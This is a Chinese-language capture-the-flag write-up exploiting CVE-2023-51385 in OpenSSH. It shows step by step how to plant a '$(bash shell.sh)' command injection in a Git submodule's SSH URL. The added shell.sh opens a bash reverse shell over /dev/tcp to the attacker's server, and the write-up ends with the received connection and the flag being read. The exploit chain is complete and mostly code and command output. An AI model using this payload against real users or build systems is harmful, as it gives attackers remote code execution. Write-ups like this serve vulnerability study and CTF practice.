


# CVE-2023-51385

:::info

Tags

- OpenSSH 9.6 命令注入

官方数据库记录

> 在 9.6 之前的 OpenSSH 中的 ssh 中，如果用户名或主机名具有 shell 元字符，并且在某些情况下该名称被扩展令牌引用，则可能会发生操作系统命令注入。 例如，不受信任的 Git 存储库可能有一个用户名或主机名中包含 shell 元字符的子模块。

:::

参考

- [SSH ProxyCommand == unexpected code execution (CVE-2023-51385) | Vin01’s Blog](https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html)

首先，题目限制了使用 `Github` 代码托管服务，可以使用 `Gitee` 或者 [Gogs: A painless self-hosted Git service](https://gogs.io) 自托管一个 Git 服务

这里我选择使用 [Gogs: A painless self-hosted Git service](https://gogs.io) 自托管一个 Git 服务


## 创建 submodule 仓库

首先，先创建一个仓库，只放置 `README.md` 文件，作为后续利用的 submodule

```shell
┌──(randark ㉿ kali)-[~/pocs]
└─$ mkdir CVE-2023-51385-submodule

┌──(randark ㉿ kali)-[~/pocs]
└─$ cd CVE-2023-51385-submodule/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ echo "test" > README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ ls -lh
total 4.0K
-rw-rw-r-- 1 randark randark 5 Jul 24 23:14 README.md
```

然后初始化 git 仓库，并设置仓库，创建提交

:::warning

经过测试，远程靶机的 git 服务只接受分支名为 `master` 的仓库

:::

```shell
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git config --global init.defaultBranch master

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git init
Initialized empty Git repository in /home/randark/pocs/CVE-2023-51385-submodule/.git/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git add README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git commit -m "init"
[master (root-commit) e7f93b0] init
 1 file changed, 1 insertion(+)
 create mode 100644 README.md
```

然后在 gogs 平台上建立一个仓库，在本地 git 仓库添加远程仓库，并推送

```shell
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git remote add origin http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git push -u origin master
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 212 bytes | 212.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git
 * [new branch]      master -> master
branch 'master' set up to track 'origin/master'.
```

此时，在 gogs 平台上就可以看到创建好的仓库了



## 创建主仓库

如法炮制，在本地创建一个 `CVE-2023-51385-main` 仓库，并同步到远程 gogs 平台

```shell
┌──(randark ㉿ kali)-[~/pocs]
└─$ mkdir CVE-2023-51385-main

┌──(randark ㉿ kali)-[~/pocs]
└─$ cd CVE-2023-51385-main/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ echo "test" > README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git init
Initialized empty Git repository in /home/randark/pocs/CVE-2023-51385-main/.git/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git add README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "init"
[master (root-commit) 7cd224b] init
 1 file changed, 1 insertion(+)
 create mode 100644 README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git remote add origin http://139.*.*.*:3000/123/CVE-2023-51385-main.git

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git push -u origin master
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 213 bytes | 213.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-main.git
 * [new branch]      master -> master
branch 'master' set up to track 'origin/master'.
```

在平台上可以看到



## 主仓库添加 submodule

```shell
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git submodule add http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git abc123
Cloning into '/home/randark/pocs/CVE-2023-51385-main/abc123'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (3/3), 192 bytes | 192.00 KiB/s, done.

┌──(randark㉿kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "add submodule"
[master 8218e99] add submodule
 2 files changed, 4 insertions(+)
 create mode 100644 .gitmodules
 create mode 160000 abc123
```

## 修改 .gitmodules 文件 植入恶意载荷

```properties title="原本的 .gitmodules 文件"
[submodule "abc123"]
        path = abc123
        url = http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git
```

```properties title="修改后的 .gitmodules 文件"
[submodule "abc123"]
        path = abc123
        url = ssh://$(bash shell.sh).ichunqiu.com/bar
```

同时添加恶意脚本到根目录

```shell title="shell.sh"
/bin/bash -i >& /dev/tcp/139.*.*.*/9999 0>&1
```

## 更新修改到远程主仓库

```shell
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git submodule update --init --recursive

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git add .gitmodules abc123

┌──(randark㉿kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "add evil"
[master e344f5c] add evil
 2 files changed, 2 insertions(+), 1 deletion(-)
 create mode 100644 shell.sh

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git push -u origin master
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 396 bytes | 396.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-main.git
   7cd224b..68f1b06  master -> master
branch 'master' set up to track 'origin/master'.
```

操作之后，在 gogs 平台上可以看到


## 执行攻击

在vps上设置监听器

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[23:37:02] Welcome to pwncat 🐈!
bound to 0.0.0.0:9999
```

然后在靶机上填入`CVE-2023-51385-main`仓库的远程地址

```plaintext
http://139.*.*.*:3000/123/CVE-2023-51385-main.git
```

即可收到回连

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[23:37:02] Welcome to pwncat 🐈!
[23:59:02] received connection from 39.106.20.178:33530
[23:59:03] 39.106.20.178:33530: registered new host w/ db
(local) pwncat$ back
(remote) www-data@engine-2:/tmp/CVE-2023-51385-main$ cd /
(remote) www-data@engine-2:/$ cat flag
flag{f5a44b2a-078d-479e-9382-b66a2b986c49}
```
